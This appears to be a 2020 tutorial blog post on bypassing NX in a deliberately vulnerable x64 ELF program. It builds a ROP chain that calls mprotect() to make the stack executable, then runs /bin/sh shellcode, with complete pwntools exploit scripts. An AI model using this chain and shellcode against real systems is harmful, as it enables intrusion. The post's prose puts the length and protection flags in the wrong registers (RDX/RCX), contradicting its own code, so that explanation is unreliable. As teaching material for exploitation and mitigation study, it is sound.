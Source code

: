 ```yaml
---
layout: post
title:	"ELF x64 bypass NX with mprotect()"
date:	2020-08-25
categories:
    - blog
tags:
    - binary
---
```



In this blogpost, I’ll explain how to bypass **NX** using **mprotect()** in order to make the stack executable.

For this purpose, I created the following vulnerable C program.

~~~
#include <stdio.h>

int main(int argc, char **argv){

    char input[256];
    gets(input);

    printf("%s", input);
    printf("\n");
    return 0;
}
~~~

This is the gcc command to compile the executable with **NX** enabled and **PIE** disabled.

~~~
gcc -o chall chall.c -fno-stack-protector -no-pie -Wl,-z,noexecstack
~~~

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img1.png)

**ASLR** should be disabled, how we can see **NX** is enabled.

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img2.png)
![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img3.png)

Let’s run the executable in gdb. In order to trigger the buffer overflow we will use 300 ‘A’s as input.

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img4.png)

As we expected, the **RBP** register is overwritten with our ‘A’s.

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img5.png)

By using pattern_create, we can generate a payload in order to calculate the exact offset that overwrite the **RIP** register. Because the executable is a 64 bit ELF, the maximum address is **0x7FFFFFFFFFFFF**, we can overwrite the **RIP** register by adding 8 byte to the **RBP** register.

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img6.png)

The **RBP** register is overwritten by the value **0x3769413669413569**.

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img7.png)

Using pattern_offset, we can calculate the offset.

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img8.png)

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img9.png)

We successfully overwrite the **RIP** register with the value **0x0000424242424242**.

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img10.png)

Because NX is enabled, our stack is not executable, we can use the **[mprotect()](https://www.man7.org/linux/man-pages/man2/mprotect.2.html)** function in order to make the stack executable.

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img11.png)

As reported in the documentation:

~~~
mprotect() changes the access protections for the calling process's memory pages containing any part of the address range in the interval [addr, addr+len-1].  addr must be aligned to a page boundary.

If the calling process tries to access memory in a manner that violates the protections, then the kernel generates a SIGSEGV signal for the process.

prot is a combination of the following access flags: PROT_NONE or a bitwise-or of the other values in the following list: 

PROT_NONE: The memory cannot be accessed at all.

PROT_READ: The memory can be read.

PROT_WRITE: The memory can be modified.

PROT_EXEC: The memory can be executed.

...
~~~

We will set address to **0x7fffffffe000** (I take it from gdb, our 'A's are at  address **0x7fffffffe168**), the value **0x1000** as length and the protection to **RWX**, which is **0x7**.

The calling convention for ELF 64 is the following: 
* Arguments in RDI, RSI, RDX, RCX, R8, R9 
* Return Value in RAX 

So we need to put the stack address in the **RDI** register, the length in the **RDX** register and the value **0x7** in the **RCX** register.

Using gdb, it is possible to find the **mprotect()** address.

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img12.png)

Using [ROPgadget](https://github.com/JonathanSalwan/ROPgadget), we can find the gadgets we need to put the values into the registers.

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img13.png)

There is no “pop rdx” instruction in our binary, we can look for it into the libc.

Using the vmmap command, we can see the libc address.

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img14.png)

And with ROPgadget, we can find the offset of the gadget.

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img15.png)



Using the following exploit, we can use the “attach” command into gdb in order to debug the process and find our shellcode address.

~~~
from pwn import *

p = process("./chall")

libc_address = 0x00007ffff7df2000

payload = ""
payload += "A" * 264
payload += p64(0x00000000004011fb) # pop rdi ; ret
payload += p64(0x7fffffffe000) # stack address
payload += p64(0x00000000004011f9) # pop rsi ; pop r15 ; ret
payload += p64(0x1000) # size
payload += p64(0xAAAAAAAAAAAAAAAA) #garbage for r15
payload += p64(libc_address+0x000000000003fa6a) # pop rdx ; ret
payload += p64(0x7) #mode
payload += p64(0x7ffff7eea1e0) # mprotect address
payload += “B” * 8
payload += "C” * 200
raw_input()

p.sendline(payload)
p.readline()
p.interactive()
~~~

Let's run the script, use the command "attach 12889" in gdb and then let the execution continue.

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img16.png)

As we can see, our ‘C’s start from **0x7fffffffe210**.
Let’s update our script with a shellcode and try to pop a bash shell, after the **mprotect()**, our stack will be executable.

~~~
from pwn import *

p = process("./chall")

shellcode = "\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05"
libc_address = 0x00007ffff7df2000

payload = ""
payload += "A" * 264
payload += p64(0x00000000004011fb) # pop rdi ; ret
payload += p64(0x7fffffffe000) # stack address
payload += p64(0x00000000004011f9) # pop rsi ; pop r15 ; ret
payload += p64(0x1000) # size
payload += p64(0xAAAAAAAAAAAAAAAA) #garbage for r15
payload += p64(libc_address+0x000000000003fa6a) # pop rdx ; ret
payload += p64(0x7) #mode
payload += p64(0x7ffff7eea1e0) # mprotect address
payload += p64(0x7fffffffe210) # shellcode address
payload += shellcode

p.sendline(payload)
p.readline()
p.interactive()
~~~

And yes, it works.

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img17.png)

